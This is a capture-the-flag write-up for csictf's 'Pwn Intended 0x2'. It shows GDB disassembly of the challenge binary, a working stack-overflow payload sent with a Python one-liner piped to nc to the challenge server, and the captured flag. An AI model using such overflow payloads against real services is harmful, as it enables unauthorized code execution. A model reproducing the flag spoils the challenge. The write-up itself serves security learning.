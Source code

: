 ## Pwn Intended 0x2

### Writeup by Trent (teerix)

Category: Pwn

```
Travelling through spacetime!

nc chall.csivit.com 30007

File Included: pwn-intended-0x2 Binary
```

I decided to disassemble the main function of the binary file in GDB before 
trying any sort of fuzzing on their server implementation.

This stuck out at me immediately:

```
Dump of assembler code for function main:
   [Some output omitted]
   0x00000000004011ca <+116>:   cmp    DWORD PTR [rbp-0x4],0xcafebabe
   0x00000000004011d1 <+123>:   jne    0x4011f0 <main+154>
   0x00000000004011d3 <+125>:   lea    rdi,[rip+0xe66]        # 0x402040
   0x00000000004011da <+132>:   call   0x401030 <puts@plt>
   0x00000000004011df <+137>:   lea    rdi,[rip+0xe8a]        # 0x402070
   0x00000000004011e6 <+144>:   mov    eax,0x0
   0x00000000004011eb <+149>:   call   0x401050 <system@plt>
   0x00000000004011f0 <+154>:   mov    eax,0x0
   0x00000000004011f5 <+159>:   leave  
   0x00000000004011f6 <+160>:   ret    
```


Which seemingly meant that `$rbp-0x4` had to be overwritten with hex 0xcafebabe


Printing out $rbp-0x4 showed that it pointed to memory location `0x7fffffffdf7c`.

Upon printing the stack out it can be seen that the memory location where `0xcafebabe` should be placed was
44 bytes ahead in the stack.

Now I simply called python to take care of overwriting the stack and inserting the appropriate bytes at the offset:

`python -c 'print "A"*44+"\xbe\xba\xfe\xca"' | nc chall.csivit.com 30007`

Boom! We receive the message: "You've reached your destination, here's a flag!" along with the flag


Flag: csictf{c4n_y0u_re4lly_telep0rt?}
